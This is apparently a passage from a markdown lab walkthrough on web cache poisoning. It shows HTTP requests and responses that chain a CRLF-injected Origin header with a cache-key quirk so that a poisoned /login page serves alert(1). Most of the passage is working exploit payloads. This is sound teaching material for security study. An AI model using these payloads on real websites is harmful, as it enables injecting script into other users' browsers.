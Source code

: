 And notice the Response:
```
X-Cache-Key: /js/localize.js?lang=test&cors=1$$origin=test.cb
```

#### Combine all to poison `/login?lang=en`

We will use CRLF to add new lines. (URL encoded - `%0d%0`)

Origin Payload:
```
x
Content-Length: 8

alert(1)$$$$
```

URL Encoded:
```
x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$$$
```

```http
GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/2
Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$
```
Response:

```http
-
Access-Control-Allow-Origin: x
X-Cache-Key: /js/localize.js?lang=en?cors=1&x=1$$origin=x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$
```

Followed by:
```http
GET /login?lang=en?utm_content=x%26cors=1%26x=1$$origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/2
```

URL decoded:
```
utm_content=x&cors=1&x=1$$origin=x
Content-Length: 8

alert(1)$$#
```

Response:
```http
-
Location: /login/?lang=en?utm_content=x%26cors=1%26x=1$$origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23
```

## Combining web cache poisoning vulnerabilities
![Awesome Badges](https://img.shields.io/badge/level-expert-blueviolet)
